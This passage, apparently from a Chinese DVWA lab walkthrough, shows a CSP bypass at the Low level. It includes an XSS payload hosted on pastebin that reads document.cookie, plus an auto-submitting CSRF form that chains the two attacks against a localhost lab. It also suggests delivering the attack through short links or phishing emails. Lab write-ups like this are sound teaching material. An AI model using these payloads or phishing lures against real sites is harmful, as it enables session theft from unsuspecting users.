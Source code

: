 其中 pastebin.com 是一个快速分享文本内容的网站，这个内容我们是可控的，可以在这里面插入 XSS 攻击语句：





javascript

```javascript
alert(document.cookie)
```



![img](https://image.3001.net/images/20200528/15906348674334.png)



将网址 `https://pastebin.com/raw/ZFnbmjBU` 填写到文本框中 然后点击 include 即可将这个文件包含进来，从而触发 XSS：



![img](https://image.3001.net/images/20200528/15906349641665.png)



这个时候查看网页源码会发现刚刚的网址被 SRC 给引用进来了：



![img](https://image.3001.net/images/20200528/15906350318425.png)



这里还可以配合 CSRF 让攻击更加自动化：





html

```html
<form method="POST" action="http://127.0.0.1:8888/vulnerabilities/csp/" id="csp">
  <input type="text" name="include" value="">
</form>
<script>
  var form = document.getElementById("csp");
  form[0].value="https://pastebin.com/raw/ZFnbmjBU";
  form.submit();
</script>
```

将上述内容保存为 csrf.html 然后上传到外网服务器上，国光这里临时上传到我的网站根目录下：





payload

```payload
https://www.sqlsec.com/csrf.html
```

将这个地址想方设法让受害者访问的话，就会自动触发 CSRF 和 XSS 攻击。这里可以采用短网址、钓鱼邮件等方法 非常灵活

## Medium
